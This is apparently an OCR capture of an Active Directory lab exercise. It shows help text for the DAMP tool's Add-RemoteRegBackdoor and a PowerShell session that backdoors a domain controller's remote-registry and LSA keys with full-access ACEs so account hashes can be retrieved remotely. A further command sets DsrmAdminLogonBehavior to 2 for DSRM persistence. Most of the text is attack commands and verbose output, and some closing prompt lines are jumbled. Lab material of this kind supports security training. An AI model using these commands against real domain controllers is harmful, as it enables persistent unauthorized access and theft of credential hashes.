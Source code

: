 ```
    Note: on some systems the LSA subkeys don't inherit permissions from their
    parent container, so we have to set those explicitly :(

    Combined, these malicious ACEs allow for the remote retrieval the system's computer
    account hash as well as local account hashes. These hashes can be retrieved with
    Get-RemoteMachineAccountHash and Get-RemoteLocalAccountHash, respectively.

RELATED LINKS

REMARKS
    To see the examples, type: "get-help Add-RemoteRegBackdoor -examples".
    For more information, type: "get-help Add-RemoteRegBackdoor -detailed".
    For technical information, type: "get-help Add-RemoteRegBackdoor -full".

PS C:\AD\Tools\DAMP-master\DAMP-master> whoami;hostname
dcorp\student503
dcorp-std503
PS C:\AD\Tools\DAMP-master\DAMP-master> Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student503 -Credential svcadmin -Verbose
VERBOSE: [dcorp-dc : ] Using trustee username 'student503'
VERBOSE: [dcorp-dc] Remote registry is not running, attempting to start
VERBOSE: [dcorp-dc] Attaching to remote registry through StdRegProv
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Backdooring started for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Backdooring completed for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Backdooring started for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\JD] Backdooring completed for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Backdooring started for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Skew1] Backdooring completed for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Backdooring started for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\Data] Backdooring completed for key
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Backdooring started for key
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit